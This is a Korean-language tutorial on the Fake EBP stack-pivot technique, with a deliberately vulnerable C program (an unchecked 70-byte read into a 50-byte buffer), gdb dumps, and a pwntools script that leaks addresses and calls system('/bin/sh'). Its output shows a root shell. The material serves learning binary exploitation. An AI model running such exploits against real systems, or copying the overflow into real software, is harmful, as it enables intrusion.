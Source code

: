 ## **Concept**

가짜 스택 프레임 포인터(Stack Frame Pointer)를 만들어 프로그램의 실행 흐름을 변경한다.(Fake EBP)  
Return Address 영역 까지만 덮어쓸 수 있을 경우 사용한다.  

#### **LEAVE**
1. EBP 레지스터에 저장된 값을 ESP에 저장
1. ESP 레지스터가 가리키는 Stack 영역에 값을 EBP 레지스터에 저장

#### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; LEAVE
mov esp,ebp
pop ebp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o ff ff.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 70);
}
  
void main(){
    vuln();
}
```

"A"66+"B"4 입력 시 vuln() 함수의 Stack Frame과 Return address가 변조된다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

변조된 메모리 구조.

```
gdb-peda$ x/24wx 0xbfc64e3a(&buf)
0xbfc64e3a:	0x41414141 <- dummy 0x42424242 <- &system 0x43434343 <- &exit 0x44444444 <- &/bin/sh

gdb-peda$ x/24 $ebp
0xbfc64e78:	0x46464646 <- &buf	0x47474747 <- leave	0xb7f243dc	0xbfc64ea0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
import sys

p=process("./ff")
buf = int(p.recvline().split(' ')[3],16)
printf = int(p.recvline().split(' ')[3],16)

print('Laek buf    : ' + str(hex(buf)))
print('Laek printf : ' + str(hex(printf)))

libBase = printf - 0x4a670
system = libBase + 0x3bda0
exit = libBase + 0x2f9d0
binsh = libBase + 0x15ca0b
leave = 0x08048571

print('libBase : ' + str(hex(libBase)))
print('system  : ' + str(hex(system)))
print('exit    : ' + str(hex(exit)))
print('/bin/sh : ' + str(hex(binsh)))

exploit = "AAAA" + p32(system) + p32(exit) + p32(binsh) + "A"*46 + p32(buf) + p32(leave)
p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fakeebp# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fakeebp': pid 2319
Laek buf    : 0xbfd77fea
Laek printf : 0xb7e02670

libBase : 0xb7db8000
system  : 0xb7df3da0
exit    : 0xb7de79d0
/bin/sh : 0xb7f14a0b
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/pages/viewpage.action?pageId=12189944](https://www.lazenca.net/pages/viewpage.action?pageId=12189944)

